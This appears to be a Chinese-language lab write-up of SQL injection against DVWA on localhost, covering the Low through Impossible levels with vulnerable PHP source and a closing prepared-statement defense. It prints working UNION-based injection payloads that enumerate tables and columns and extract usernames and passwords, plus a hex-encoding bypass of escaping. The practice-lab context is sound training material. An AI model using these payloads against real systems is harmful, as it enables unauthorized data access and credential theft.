# SQL 注入

## 0x00 Low级别

输入ID值1~5，能够显示不同的账户名



首先判断是否存在sql注入

```http
http://localhost:8080/dvwa/vulnerabilities/sqli/?id=1'&Submit=Submit#
```

页面报错，存在sql注入



分析报错信息

```sql
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1''' at line 1
```

接着判断sql注入的类型，是单引号闭合的字符型

```http
http://localhost:8080/dvwa/vulnerabilities/sqli/?id=1' and '1'='1 &Submit=Submit#
http://localhost:8080/dvwa/vulnerabilities/sqli/?id=1' and '1'='2 &Submit=Submit#
```

尝试还原服务器端sql语句

```sql
select * from users where id = '$id';
```

使用order by判断字段数量，得知有两个字段数量

```http
http://localhost:8080/dvwa/vulnerabilities/sqli/?id=1' order by 1--+&Submit=Submit#
http://localhost:8080/dvwa/vulnerabilities/sqli/?id=1' order by 2--+&Submit=Submit#
http://localhost:8080/dvwa/vulnerabilities/sqli/?id=1' order by 3--+&Submit=Submit#
```



用联合查询union select确定显示位置

```http
http://localhost:8080/dvwa/vulnerabilities/sqli/?id=-1' union select 1,2--+&Submit=Submit#
```



使用version(),database()等函数查询数据库信息

```http
http://localhost:8080/dvwa/vulnerabilities/sqli/?id=-1' union select version(),database()--+&Submit=Submit#
```



既然MySQL数据库版本在5.0以上那么默认存在information_schema数据库，里面包含整个数据库的数据库名、表名、列名等

使用联合查询得到test库中guestbook和users两张表

```http
http://localhost:8080/dvwa/vulnerabilities/sqli/?id=-1' union select database(),group_concat(table_name) from information_schema.tables where table_schema='test'--+&Submit=Submit#
```



接着查询users表里的列名，可以看到包含user，password等字段

```http
http://localhost:8080/dvwa/vulnerabilities/sqli/?id=-1' union select database(),group_concat(column_name) from information_schema.columns where table_schema='test' and table_name='users'--+&Submit=Submit#
```



有了字段名以及数据库表名等信息，就可以直接查询用户名和密码

```http
http://localhost:8080/dvwa/vulnerabilities/sqli/?id=-1' union select database(),group_concat(user,password) from test.users--+&Submit=Submit#
```



源代码分析，sql语句与之前还原的基本一致，low级别下的并没有注重sql注入的防御

```php
<?php
if( isset( $_REQUEST[ 'Submit' ] ) ) {
    // Get input
    $id = $_REQUEST[ 'id' ];

    // Check database
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Get values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

    mysqli_close($GLOBALS["___mysqli_ston"]);
}
?> 
```

## 0x01 Medium级别

相比于low级别，取消了输入点，换成了下拉式单选框



但考虑到既然要和服务器端数据库产生交互，那就可以抓包来修改ID的值，同时也存在通过修改数据包实现sql注入的可能，打开Burp Suite抓包



这是一个POST请求，尝试修改id值回包出现报错信息，说明存在sql注入



分析报错信息，是反斜杠\将单引号'转义导致的报错，判断服务器端可能存在处理用户输入的函数，会将单引号转义从而报错

```sql
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '\'' at line 1
```

判断注入类型，是数字型

```http
id=1 and 1 = 1&Submit=Submit
id=1 and 1 = 2&Submit=Submit
```

确定字段数量和显示位置同low级别没有差异，快进到查询表名却发现在low级别行得通的语句出现报错

```sql
id=1 union select 1,table_name from information_schema.tables where table_schema='test'#&Submit=Submit#&Submit=Submit
```

报错信息

```sql
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '\'test\'#' at line 1
```

与之前分析结果一致，会对单引号‘转义，所以需要重新构造报错的那部分语句，替换为select database()即可

```sql
id=1 union select 1,group_concat(table_name) from information_schema.tables where table_schema=(select database())#&Submit=Submit
```

查询列名时可以用16进制绕过，只要不使用单引号即可

```sql
id=-1 union select 1,group_concat(column_name) from information_schema.columns where table_schema =0x74657374and table_name=0x27757365727327 # &Submit=Submit
```



最后得到用户名和账户



源代码分析，新增mysqli_real_escape_string()函数，作用是转义 sql语句中使用的字符串中的特殊字符比如

\x00，\n，\r，\'，"等，如果成功，则该函数返回被转义的字符串，如果失败，则返回 false

```php
<?php

if( isset( $_POST[ 'Submit' ] ) ) {
    // Get input
    $id = $_POST[ 'id' ];

    $id = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $id);

    $query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
    $result = mysqli_query($GLOBALS["___mysqli_ston"], $query) or die( '<pre>' . mysqli_error($GLOBALS["___mysqli_ston"]) . '</pre>' );

    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Display values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

}

// This is used later on in the index.php page
// Setting it here so we can close the database connection in here like in the rest of the source scripts
$query  = "SELECT COUNT(*) FROM users;";
$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
$number_of_rows = mysqli_fetch_row( $result )[0];

mysqli_close($GLOBALS["___mysqli_ston"]);
?> 
```

## 0x02 High级别

high级别，点击跳转到新标签页输入id值，high级别的查询提交页面与查询结果显示页面不是同一个，也没有执行302跳转，这样做的目的是为了防止一般的sqlmap注入，因为sqlmap在注入过程中，无法在查询提交页面上获取查询的结果，没有了反馈，也就没办法进一步注入



输入单引号后报错，但并没有详细的报错信息



再添加注释符后页面正常回显，说明存在sql注入



判断sql注入类型，可知与low级别相同是字符型

```sql
1' and '1' ='1'#//页面有回显
1' and '1' ='2'#//页面无回显
```

后续注入过程与low级别类似，不再赘述

源代码分析，整体上来说dvwa的sql注入low至high级别较为简单，高级代码也只是使用LIMIT关键字限制了返回结果的数量，可以直接注释掉或是使用group_concat()将返回结果合为一条结果

```php
<?php

if( isset( $_SESSION [ 'id' ] ) ) {
    // Get input
    $id = $_SESSION[ 'id' ];

    // Check database
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
    $result = mysqli_query($GLOBALS["___mysqli_ston"], $query ) or die( '<pre>Something went wrong.</pre>' );

    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Get values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);        
}

?> 
```

## 0x03 Impossible级别

源代码分析，是用来PDO预编译防御sql注入

```php
<?php

if( isset( $_GET[ 'Submit' ] ) ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $id = $_GET[ 'id' ];

    // Was a number entered?
    if(is_numeric( $id )) {
        // Check the database
        $data = $db->prepare( 'SELECT first_name, last_name FROM users WHERE user_id = (:id) LIMIT 1;' );
        $data->bindParam( ':id', $id, PDO::PARAM_INT );
        $data->execute();
        $row = $data->fetch();

        // Make sure only 1 result is returned
        if( $data->rowCount() == 1 ) {
            // Get values
            $first = $row[ 'first_name' ];
            $last  = $row[ 'last_name' ];

            // Feedback for end user
            echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
        }
    }
}

// Generate Anti-CSRF token
generateSessionToken();

?> 
```

